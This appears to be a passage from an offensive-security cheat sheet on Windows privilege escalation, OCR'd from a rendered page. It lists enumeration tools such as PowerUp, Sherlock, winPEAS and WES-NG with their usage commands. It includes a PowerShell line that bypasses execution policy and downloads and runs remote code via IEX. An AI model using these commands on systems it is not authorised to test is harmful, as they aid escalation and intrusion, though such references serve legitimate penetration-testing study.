 **PowerSploit's PowerUp**

**Watson - Watson is a (.NET 2.0 compliant) C# implementation of Sherlock**

**(Deprecated) Sherlock - PowerShell script to quickly find missing software patches for local**

**privilege escalation vulnerabilities**

**BeRoot - Privilege Escalation Project - Windows / Linux / Mac**

**Windows-Exploit-Suggester**

```
powershell -Version 2 -nop -exec bypass IEX (New-Object Net.WebClient).DownloadString(
```

```
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File Sherlock.ps
```

```
./windows-exploit-suggester.py --update
./windows-exploit-suggester.py --database 2014 - 06 - 06 -mssb.xlsx --systeminfo win7sp1-systeminfo.txt
```

**windows-privesc-check - Standalone Executable to Check for Simple Privilege Escalation**

**Vectors on Windows Systems**

**WindowsExploits - Windows exploits, mostly precompiled. Not being updated.**

**WindowsEnum - A Powershell Privilege Escalation Enumeration Script.**

**Seatbelt - A C# project that performs a number of security oriented host-survey "safety**

**checks" relevant from both offensive and defensive security perspectives.**

**Powerless - Windows privilege escalation (enumeration) script designed with OSCP labs**

**(legacy Windows) in mind**

**JAWS - Just Another Windows (Enum) Script**

**winPEAS - Windows Privilege Escalation Awesome Script**

**Windows Exploit Suggester - Next Generation (WES-NG)**

```
# First obtain systeminfo
systeminfo
systeminfo > systeminfo.txt
# Then feed it to wesng
python3 wes.py --update-wes
python3 wes.py --update
python3 wes.py systeminfo.txt
```

**PrivescCheck - Privilege Escalation Enumeration Script for Windows**

### Windows Version and Configuration
